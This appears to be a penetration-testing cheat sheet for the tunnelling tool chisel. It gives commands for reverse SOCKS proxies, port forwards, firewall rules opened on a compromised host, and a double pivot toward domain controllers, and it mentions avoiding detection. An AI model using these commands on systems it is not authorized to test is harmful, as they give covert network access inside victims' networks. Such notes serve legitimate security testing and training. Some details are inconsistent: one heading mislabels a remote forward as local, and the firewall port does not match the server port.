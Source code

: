 ### Reverse SOCKS Proxy
```shell
chisel server -p 1335 --reverse &
```

```shell
./chisel client 192.168.45.237:1335 R:9999:socks &
```
```powershell
Start-Job {.\chisel.exe client 192.168.45.237:1335 R:9999:socks}
Start /B chisel.exe client 10.10.14.189:443 R:9050:socks &
```

### Port Forward
```shell
.\chisel.exe client 192.168.45.237:1335 8080:127.0.0.1:80
```

### Local Port Forward
A remote port forward is when we connect back from a compromised target to create the forward.
Start chisel server on compromised host
```powershell
.\chisel_windows.exe server --port 54321 --reverse --socks5

netsh advfirewall firewall add rule name="Chisel" dir=in action=allow protocol=tcp localport=15997

netsh advfirewall firewall add rule name="Chisel" dir=in action=allow protocol=tcp localport=15997
```
OR 
```bash
firewall-cmd --zone=public --add-port 15997/tcp
```
Connect to target
```shell
chisel client 192.168.194.95:54321 127.0.0.1:9999:127.0.0.1:3306
```
Everything we send to 127.0.0.1:9999 will get sent to the target on 3306

### Double Pivot
Kali -> NIX01(DMZ) -> DC01 -> DC02
- NIX01 and DC01 - 172.16.1.0/24
- DC02 - 172.16.2.0/24

On our machine
```shell
./chisel_linux server --socks5 -p 9001 --reverse
```
Edit proxychains config and comment out `socks 127.0.0.1 9050`
```shell
socks5 127.0.0.1 9999
socks5 127.0.0.1 8888
```
On NIX01
```shell
./chisel client 10.10.14.10:9001 R:9999:socks &
./chisel server  -p 9002 --reverse --socks5 &
```
On DC01
```powershell
chisel.exe client 172.16.1.100:9002 R:8888:socks
```
Scan
```bash
proxychains -q nmap -p445 -Pn -v 172.16.2.5
```

It can be helpful to be mindful of the size of the files we transfer onto targets on our client's networks, not just for performance reasons but also considering detection. Two beneficial resources to complement this particular concept are Oxdf's blog post "[Tunneling with Chisel and SSF](https://0xdf.gitlab.io/cheatsheets/chisel)" and IppSec's walkthrough of the box `Reddish`. IppSec starts his explanation of Chisel, building the binary and shrinking the size of the binary at the 24:29 mark of his [video](https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1469s)